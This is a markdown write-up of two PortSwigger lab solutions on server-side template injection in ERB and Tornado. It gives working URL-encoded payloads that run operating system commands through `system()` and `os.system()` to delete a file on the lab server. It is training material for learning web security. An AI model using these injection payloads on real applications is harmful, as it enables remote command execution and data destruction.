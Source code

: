 <!-- omit in toc -->
# Server-side template injection

<!-- omit in toc -->
## Table of Contents

- [Basic server-side template injection](#basic-server-side-template-injection)
- [Basic server-side template injection (code context)](#basic-server-side-template-injection-code-context)

## Basic server-side template injection
Reference: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic

<!-- omit in toc -->
### Quick Solution
The description already says that the template engine used is *ERB*. Looking online I found that a payload to execute commands is the following:
```
<%= system("rm /home/carlos/morale.txt") %>
```

<!-- omit in toc -->
### Solution
1. Notice that when you try to view more details about the first product, a GET request uses the message parameter to render "``Unfortunately this product is out of stock``" on the home page.
2. In the ERB documentation, discover that the syntax ``<%= someExpression %>`` is used to evaluate an expression and render the result on the page.
3. Use ERB template syntax to create a test payload containing a mathematical operation, for example:
```
<%= 7*7 %>
```
4. URL-encode this payload and insert it as the value of the ``message`` parameter in the URL as follows, remembering to replace ``your-lab-id`` with your own lab ID:
```
https://your-lab-id.web-security-academy.net/?message=<%25%3d+7*7+%25>
```
5. Load the URL in your browser. Notice that in place of the message, the result of your mathematical operation is rendered on the page, in this case, the number 49. This indicates that we may have a server-side template injection vulnerability.
6. From the Ruby documentation, discover the ``system()`` method, which can be used to execute arbitrary operating system commands.
7. Construct a payload to delete Carlos's file as follows:
```
<%= system("rm /home/carlos/morale.txt") %>
```
8. URL-encode your payload and insert it as the value of the message parameter, remembering to replace ``your-lab-id`` with your own lab ID:
```
https://your-lab-id.web-security-academy.net/?message=<%25+system("rm+/home/carlos/morale.txt")+%25>
```

## Basic server-side template injection (code context)
Reference: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context

<!-- omit in toc -->
### Quick Solution
Insert the polyglot string in the ``change-blog-post-author-display`` request. Go to a page with a comment and identify that it is a "Tornado" application. Since it is a *Basic Code Context SSTI* add ``}}`` before the payload. The full payload is:
```
}}{%import%20os%}{{os.system('rm%20/home/carlos/morale.txt')}}
```

<!-- omit in toc -->
### Solution
1. While proxying traffic through Burp, log in and post a comment on one of the blog posts.
2. Notice that on the "My account" page, you can select whether you want the site to use your full name, first name, or nickname. When you submit your choice, a ``POST`` request sets the value of the parameter ``blog-post-author-display`` to either ``user.name``, ``user.first_name``, or ``user.nickname``. When you load the page containing your comment, the name above your comment is updated based on the current value of this parameter.
3. In Burp, go to "Proxy" > "HTTP history" and find the request that sets this parameter, namely ``POST /my-account/change-blog-post-author-display``, and send it to Burp Repeater.
4. Study the Tornado documentation to discover that template expressions are surrounded with double curly braces, such as ``{{someExpression}}``. In Burp Repeater, notice that you can escape out of the expression and inject arbitrary template syntax as follows:
```
blog-post-author-display=user.name}}{{7*7}}
```
5. Reload the page containing your test comment. Notice that the username now says ``Peter Wiener49}}``, indicating that a server-side template injection vulnerability may exist in the code context.
6. In the Tornado documentation, identify the syntax for executing arbitrary Python:
```
{% somePython %}
```
7. Study the Python documentation to discover that by importing the ``os`` module, you can use the ``system()`` method to execute arbitrary system commands.
8. Combine this knowledge to construct a payload that deletes Carlos's file:
```
{% import os %}
{{os.system('rm /home/carlos/morale.txt')
```
9. In Burp Repeater, go back to ``POST /my-account/change-blog-post-author-display``. Break out of the expression, and inject your payload into the parameter, remembering to URL-encode it as follows:
```
blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')
```
10. Reload the page containing your comment to execute the template and solve the lab.
